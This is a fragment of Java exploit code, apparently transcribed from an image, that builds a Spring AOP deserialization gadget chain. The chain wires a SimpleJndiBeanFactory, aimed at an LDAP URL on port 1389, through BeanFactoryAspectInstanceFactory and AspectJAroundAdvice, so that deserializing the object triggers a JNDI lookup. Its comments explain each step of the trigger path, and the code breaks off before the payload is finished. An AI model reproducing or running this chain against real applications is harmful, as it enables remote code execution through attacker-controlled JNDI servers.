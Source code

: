 ```java

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    @SuppressWarnings ( {
            "unchecked"
    } )
    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes,
                                                Object[] consArgs ) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }

    public static void main(String[] args) throws Exception {

        String jndiUrl = "ldap://127.0.0.1:1389/fjkrsc";
        SimpleJndiBeanFactory beanFactory = new SimpleJndiBeanFactory();
        beanFactory.addShareableResource(jndiUrl);

        // When deserializing, BeanFactoryAspectInstanceFactory.getOrder will be called, and the call will be triggered. SimpleJndiBeanFactory.getType -> SimpleJndiBeanFactory.doGetType -> SimpleJndiBeanFactory.doGetSingleton -> SimpleJndiBeanFactory.lookup -> JndiTemplate.lookup.
        setFieldValue(beanFactory, "logger", new NoOpLog());
        setFieldValue(beanFactory.getJndiTemplate(), "logger", new NoOpLog());

        // When deserialization, AspectJAroundAdvice.getOrder will be called, and the BeanFactoryAspectInstanceFactory.getOrder will be triggered.
        AspectInstanceFactory aspectInstanceFactory = createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
        setFieldValue(aspectInstanceFactory, "beanFactory", beanFactory);
        setFieldValue(aspectInstanceFactory, "name", jndiUrl);

        // Deserialization AspectJPointcutA
dvisor.getOrder will be called, and AspectJAroundAdvice.getOrder will be triggered.
        AbstractAspectJAdvice advice = createWithoutConstructor(AspectJAroundAdvice.class);
        setFieldValue(advice, "aspectInstanceFactory", aspectInstanceFactory);

```